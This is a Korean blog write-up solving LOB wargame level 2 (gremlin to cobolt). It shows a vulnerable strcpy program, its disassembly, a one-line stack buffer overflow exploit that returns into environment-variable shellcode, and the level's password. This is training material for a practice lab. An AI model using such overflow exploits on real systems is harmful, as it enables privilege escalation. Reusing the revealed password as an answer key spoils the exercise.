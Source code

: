 ```yaml
---
date: '2022-10-12'
before : '2022-10-11'
after : '2022-10-13'
title: '시스템 해킹(18) : FTZ LOB LEVEL 2'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


사실 이번 문제도.. 그냥 기본 BOF문제이다. 딱히 설명할 건 없어서 그냥 빠르게 풀이하도록 하겠다. 


모르는 걸 물어보는건 죄가 아니지만, FTZ 시리즈로 글을 쓴 것만 읽어봐도 "버퍼오버플로우가 뮈예요?" 같은 의문들은 해결된다고 생각한다..ㅠㅠ (나도 초보자중에 쌩초보다..)


### 1. Level 2 : Gremlin -> Cobolt

바로 소스코드와 어셈블리 코드를 분석해보자.

```
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
```

앗 그리고, LOB 환경에서는 우리가 주소를 쓸 떄 사용하는 \xff를 x00으로 인식해 버퍼오버플로우가 안되는 오류(는 아니고, 그냥 리눅스 서버 특정 버전의 특징이다.) 가 있다. 따라서 꼭 BOF 공격 코드를 넣기 전에 bash2명령어를 입력한 후 넣도록 하자!


이번에도 환경 변수는 사용 가능하니 EGG를 만들어서 주소를 확인하자.




환경 변수와 그에 따른 익스플로잇 : 
```
0xbffffdc2
./cobolt `python -c 'print "A"*20 + "\xfc\xfe\xff\xbf"'`
```

비밀번호 : hacking exposed

---
## Source

- 해커스쿨 FTZ
- Me!












